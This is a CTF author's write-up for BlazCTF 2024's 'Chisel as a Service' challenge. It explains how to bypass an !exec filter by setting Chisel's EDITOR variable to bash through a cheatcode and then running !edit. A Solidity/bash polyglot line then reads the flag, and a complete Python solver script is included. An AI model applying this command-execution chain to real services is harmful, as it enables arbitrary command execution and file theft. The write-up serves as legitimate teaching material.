

# BlazCTF 2024 - Chisel as a Service - Author Writeup

I had the opportunity to participate as a guest author for [BlazCTF 2024](https://ctf.blaz.ai/), hosted by [Fuzzland](https://x.com/fuzzland_), and created the challenge titled "Chisel as a Service". Special thanks to the members of Fuzzland and [SunSec](https://x.com/1nf0s3cpt) from DeFiHackLabs for inviting me to contribute.

## Overview

This challenge is a service where [Chisel](https://github.com/foundry-rs/foundry/tree/master/crates/chisel) can be executed via a website, and its execution results can be viewed.
Users can input Solidity code into a form, press the Run button, and see the execution results displayed:



Chisel is one of the tools from the [Foundry](https://github.com/foundry-rs/foundry) suite, allowing you to easily execute Solidity interactively.
It behaves similarly to Python commands. In essence, it's a Read-Eval-Print Loop (REPL).

Typically, it is used in the terminal like this:

```sh
$ chisel
Welcome to Chisel! Type `!help` to show available commands.
➜ 1 + 2
Type: uint256
├ Hex: 0x3
├ Hex (full word): 0x3
└ Decimal: 3
➜ keccak256("hello")
Type: bytes32
└ Data: 0x1c8aff950685c2ed4bc3174f3472287b56d9517b9c948127319a09a7a36deac8
```

In this challenge, the execution of Chisel is handled by the following simple Node.js code:

```javascript
import express from "express";
import { $ } from "zx";

const app = express();
const PORT = 3000;

app.use(express.static("public"));

app.get("/run", async (req, res) => {
  try {
    const code = String(req.query.code);
    if(/^[\x20-\x7E\r\n]*$/.test(code) === false)
      throw new Error("Invalid characters");
    const commands = code.toLowerCase().match(/![a-z]+/g);
    if (commands !== null && (commands.includes("!exec") || commands.includes("!e")))
      throw new Error("!exec is not allowed");
    const uuid = crypto.randomUUID();
    await $({
      cwd: "public/out",
      timeout: "3s",
      input: code,
    })`chisel --no-vm > ${uuid}`;
    res.send({ uuid });
  } catch {
    res.status(500).send("error");
  }
});

app.listen(PORT);
```

The `zx` library is used in the part where Chisel is executed.
When a user submits code, it is provided as input to `chisel --no-vm`, and the result is saved in a `uuid` file.
This `uuid` file can be viewed via the web service.

Additionally, an error will occur if `!exec` or `!e` is included in the code.
Chisel provides several helper commands, and arbitrary code can be executed using the `!exec` command or its shorthand `!e`.
Thus, their use is strictly prohibited.

As can be seen from the `Dockerfile`, the goal of this challenge is to read `flag.txt` located in the root directory:

```Dockerfile
RUN mv flag.txt /flag-$(md5sum flag.txt | cut -c-32).txt
```

## Solution

Since the goal is to read `flag.txt`, is there any way to read a file from Chisel?

The first thing that comes to mind is using [Foundry's Cheatcodes](https://book.getfoundry.sh/cheatcodes/).
Foundry provides utility functions available on EVM that enhance the developer experience in Solidity. Chisel can also utilize cheatcodes, for example, as shown below (for clarity, I will run Chisel locally instead of via the web service):

```sh
$ chisel
Welcome to Chisel! Type `!help` to show available commands.
➜ vm.addr(uint256(1))
Type: address
└ Data: 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf
```

Since the `--no-vm` option is added to executing Chisel, it seems like cheatcodes cannot be used.
However, `--no-vm` is merely an option that prevents the `Vm` interface from being imported.
Thus, you can still use it by defining the interface yourself as shown below.

```sh
$ chisel --no-vm
Welcome to Chisel! Type `!help` to show available commands.
➜ interface Vm { function addr(uint256) external returns (address); }
➜ Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
➜ vm.addr(uint256(1))
Type: address
└ Data: 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf
```

Now, is it possible to read the flag file using this cheatcode feature?

There are several cheatcodes available for file operations.
For example, the `readFile` cheatcode seems to be a suitable option:

```solidity
function readFile(string calldata) external returns (string memory);
```

However, when you try to execute it, it fails as shown below:

```sh
➜ vm.readFile("foo.txt")
Traces:
  [3109] 0xBd770416a3345F91E4B34576cb804a576fa48EB1::run()
    ├─ [0] VM::readFile("foo.txt") [staticcall]
    │   └─ ← [Revert] vm.readFile: the path foo.txt is not allowed to be accessed for read operations
    └─ ← [Revert] vm.readFile: the path foo.txt is not allowed to be accessed for read operations

⚒️ Chisel Error: Failed to inspect expression
```

The reason for the error is that Foundry's cheatcode feature is designed to only allow reading and writing to explicitly permitted areas for security reasons.
This defense mechanism was introduced to prevent the machine from being attacked when running Foundry commands like `forge test` on potentially malicious projects downloaded from the internet.

In other words, unless there is a bug in Foundry, it is impossible to read or write files using cheatcodes.
Similarly, functions like `vm.ffi` that enable arbitrary code execution are restricted.
Also, even if you try to change the environment variable `FOUNDRY_FFI` using `vm.setEnv`, it is meaningless since `FOUNDRY_FFI` is loaded during the startup of Chisel.

So, are there any other features we can use?
Let's take a look at the list of Chisel commands:

```
➜ !help
⚒️ Chisel help
=============
General
	!help | !h - Display all commands
	!quit | !q - Quit Chisel
	!exec <command> [args] | !e <command> [args] - Execute a shell command and print the output

Session
	!clear | !c - Clear current session source
	!source | !so - Display the source code of the current session
	!save [id] | !s [id] - Save the current session to cache
	!load <id> | !l <id> - Load a previous session ID from cache
	!list | !ls - List all cached sessions
	!clearcache | !cc - Clear the chisel cache of all stored sessions
	!export | !ex - Export the current session source to a script file
	!fetch <addr> <name> | !fe <addr> <name> - Fetch the interface of a verified contract on Etherscan
	!edit - Open the current session in an editor

Environment
	!fork <url> | !f <url> - Fork an RPC for the current session. Supply 0 arguments to return to a local network
	!traces | !t - Enable / disable traces for the current session
	!calldata [data] | !cd [data] - Set calldata (`msg.data`) for the current session (appended after function selector). Clears it if no argument provided.

Debug
	!memdump | !md - Dump the raw memory of the current state
	!stackdump | !sd - Dump the raw stack of the current state
	!rawstack <var> | !rs <var> - Display the raw value of a variable's stack allocation. For variables that are > 32 bytes in length, this will display their memory pointer.
```

There are several potentially useful features, but one in particular stands out: `!edit`.
This command launches Vim and allows file editing in the editor if it is installed on the system.
However, when you try to run `!edit` in the challenge environment, the following error occurs since Vim is not installed:

```
Editor exited without a status code
```

How is this implemented then?
The implementation can be found [here](https://github.com/foundry-rs/foundry/blob/1d2379a22a78d48a6f1a159868ca5978f31c5462/crates/chisel/src/dispatcher.rs#L638), and it is as follows:

```rust
ChiselCommand::Edit => {
    // create a temp file with the content of the run code
    let mut temp_file_path = std::env::temp_dir();
    temp_file_path.push("chisel-tmp.sol");
    let result = std::fs::File::create(&temp_file_path)
        .map(|mut file| file.write_all(self.source().run_code.as_bytes()));
    if let Err(e) = result {
        return DispatchResult::CommandFailed(format!(
            "Could not write to a temporary file: {e}"
        ))
    }

    // open the temp file with the editor
    let editor = std::env::var("EDITOR").unwrap_or_else(|_| "vim".to_string());
    let mut cmd = Command::new(editor);
    cmd.arg(&temp_file_path);

    match cmd.status() {
        Ok(status) => {
            if !status.success() {
                if let Some(status_code) = status.code() {
                    return DispatchResult::CommandFailed(format!(
                        "Editor exited with status {status_code}"
                    ))
                } else {
                    return DispatchResult::CommandFailed(
                        "Editor exited without a status code".to_string(),
                    )
                }
            }
        }
        Err(_) => {
            return DispatchResult::CommandFailed(
                "Editor exited without a status code".to_string(),
            )
        }
    }

    (snip)
```

The key part to focus on is the editor selection.
If the `EDITOR` environment variable is set, it is executed as the command, and if not, `vim` is used.
The argument passed is the name of a temporary file that contains the valid code entered so far on Chisel.
It is also important that `EDITOR` is read at the time `!edit` is executed, not when Chisel is launched.

In summary, the following command will run:
```
(vim or $EDITOR) (temp file path)
```

What happens if we change `EDITOR` to something other than an editor?
For example, if we set `EDITOR` to `bash` or `node`, then by running `!edit`, we can execute the temporary Solidity file as code in `bash` or `node`.

Changing environment variables is possible with Foundry's cheatcode feature.
Unlike file reading and writing, modifying environment variables does not require any special permissions.

```sh
$ chisel --no-vm
Welcome to Chisel! Type `!help` to show available commands.
➜ interface Vm { function setEnv(string calldata name, string calldata value) external; }
➜ Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
➜ vm.setEnv("EDITOR", "bash");
➜ !edit
/var/folders/p_/xbvs4ns92wj3b9xmkc1zkw2w0000gn/T/chisel-tmp.sol: line 1: syntax error near unexpected token `('
/var/folders/p_/xbvs4ns92wj3b9xmkc1zkw2w0000gn/T/chisel-tmp.sol: line 1: `Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);'
Editor exited with status 2
```

Finally, if you manage to slip Bash code that Chisel can interpret as Solidity code, you can solve this challenge.
Essentially, you need to create a polyglot.
For instance, you can use something like `//; cat /flag*`.

```sh
$ chisel --no-vm
Welcome to Chisel! Type `!help` to show available commands.
➜ //; cat /flag*
➜ interface Vm { function setEnv(string calldata name, string calldata value) external; }
➜ Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
➜ vm.setEnv("EDITOR", "bash");
➜ !edit
/tmp/chisel-tmp.sol: line 1: //: Is a directory
blaz{REDACTED}
/tmp/chisel-tmp.sol: line 2: syntax error near unexpected token `('
/tmp/chisel-tmp.sol: line 2: `Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);'
Editor exited with status 2
```

By using this approach, you can successfully retrieve the flag.
Here is the final solver:

```python
import os
import httpx
from urllib.parse import quote

HOST = os.getenv("HOST", "localhost")
PORT = os.getenv("PORT", "3000")

client = httpx.Client(base_url=f"http://{HOST}:{PORT}")

code = "\n".join(
    [
        "//; cat /flag*",
        "interface Vm { function setEnv(string calldata name, string calldata value) external; }",
        "Vm vm = Vm(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);",
        'vm.setEnv("EDITOR", "bash");',
        "!edit",
    ]
)
uuid = client.get(f"/run?code={quote(code)}").json()["uuid"]
out = client.get(f"/out/{uuid}").text
print(out)

```

Flag: `blaz{th4nk_y0u_f0r_d3v3l0p1ng_ch153l_cadd9591}`

